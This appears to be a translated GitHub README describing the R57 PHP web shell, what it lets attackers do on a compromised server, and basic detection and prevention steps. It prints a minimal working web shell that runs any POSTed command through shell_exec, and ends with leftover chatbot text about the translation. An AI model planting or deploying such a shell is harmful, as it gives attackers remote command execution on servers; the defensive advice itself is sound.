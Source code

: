 # R57 Shell - Usage and Effects on Servers

## Images

![R57 Shell](https://r00t-shell.com/wp-content/uploads/2025/02/R57-Shell.png)

💻 **A Detailed Analysis on Cybersecurity and Web Security**

## What is R57?

R57 Shell is a type of **web shell** commonly used by malicious actors. This PHP-based ability allows attackers to control a server remotely. Web shells are used for tasks such as file management, command execution, and data theft on servers.

## What Can R57 Do on a Server?

When R57 Shell is uploaded to a server, it can perform the following actions:

- 📂 **File Management:** Uploading, downloading, editing, and deleting files.
- 🖥️ **Command Execution:** Running operating system-level commands on the server.
- 📊 **Database Management:** Accessing databases and executing SQL queries.
- 🔍 **Gathering Server Information:** Viewing server details such as the operating system, PHP version, and configuration.
- 🚪 **Creating Backdoors:** Setting up backdoors for future access.

## How to Use R57

R57 Shell is typically uploaded to a server as a PHP file. The attacker executes this file to control the server through a web-based interface. Here’s an example:

```php
<?php
if (isset($_POST['cmd'])) {
    $cmd = $_POST['cmd'];
    echo "<pre>" . shell_exec($cmd) . "</pre>";
}
?>
```

This code provides a command execution feature. An attacker can use this code to execute commands on the server.

## Detection and Prevention of R57

> ⚠️ **Warning:** Abilities like R57 Shell are used for illegal activities and pose serious security risks. If you detect such a file on your server, you should remove it immediately.

To detect and prevent R57 Shell, you can follow these steps:

- 🔒 **Fix Security Vulnerabilities:** Regularly patch security vulnerabilities in your web application.
- 🛡️ **File Upload Controls:** Check the type and content of uploaded files.
- 🔍 **Log Analysis:** Review server logs to identify suspicious activities.
- 🧹 **File Scanning:** Scan and remove suspicious PHP files on the server.

> ✅ **Tip:** Use a Web Application Firewall (WAF) to block malicious traffic.


> **Note:** Make sure to replace the image link with a valid one if you need to add any.
```

This is the translated version with the same structure and format, making it suitable for GitHub's `README.md`. If you need further modifications or additions, feel free to ask!
